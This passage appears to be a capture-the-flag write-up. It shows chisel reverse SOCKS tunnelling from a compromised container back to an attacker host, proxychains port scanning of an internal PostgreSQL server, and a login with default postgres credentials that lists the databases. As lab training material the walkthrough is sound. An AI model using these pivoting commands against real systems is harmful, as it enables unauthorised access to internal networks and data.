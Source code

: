 ```bash
./chisel-arm server -p 9090 --socks5
./chisel-amd client 10.10.14.130:9090 --socks5
```

I'm experimenting with chisel on my own network first, trying to make sense of the socks5 reverse proxying... this works: 
```bash
attacker # ./chisel server -p 4242 --socks5 --reverse
victim   # ./chisel client 192.168.0.73:4242 R:1080:socks
```
```bash
victim   # updog --port 4040
attacker # curl -x socks5://localhost:1080 http://127.0.0.1:4040 
attacker # proxychains curl http://127.0.0.1:4040 
```

lets try to do that on the machine now.
```bash
./chisel-arm server -p 4242 --socks5 --reverse
/app # ./chisel-amd client 10.10.14.130:4242 R:1080:socks
```

Looks like the client connection came through, so I should be able to use proxychains to talk to the postgress server now
```bash
proxychains nc -vz 172.22.0.1 5432
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/aarch64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.22.0.1:5432  ...  OK
172.22.0.1 [172.22.0.1] 5432 (postgresql) open : Operation now in progress
```

Nice, lets connect to it
```bash
proxychains -q psql -U postgres -W postgres --host 172.22.0.1
Password:
psql (15.2 (Debian 15.2-1), server 13.7 (Debian 13.7-1.pgdg110+1))
Type "help" for help.

```
```sql
postgres=# \setenv PAGER 'less -S'
postgres=# \l
                                                   List of databases
      Name       |  Owner   | Encoding |  Collate   |   Ctype    | ICU Locale | Locale Provider |   Access privileges
-----------------+----------+----------+------------+------------+------------+-----------------+-----------------------
 mentorquotes_db | postgres | UTF8     | en_US.utf8 | en_US.utf8 |            | libc            |
 postgres        | postgres | UTF8     | en_US.utf8 | en_US.utf8 |            | libc            |
 template0       | postgres | UTF8     | en_US.utf8 | en_US.utf8 |            | libc            | =c/postgres          +
                 |          |          |            |            |            |                 | postgres=CTc/postgres
 template1       | postgres | UTF8     | en_US.utf8 | en_US.utf8 |            | libc            | =c/postgres          +
                 |          |          |            |            |            |                 | postgres=CTc/postgres
(4 rows)

```
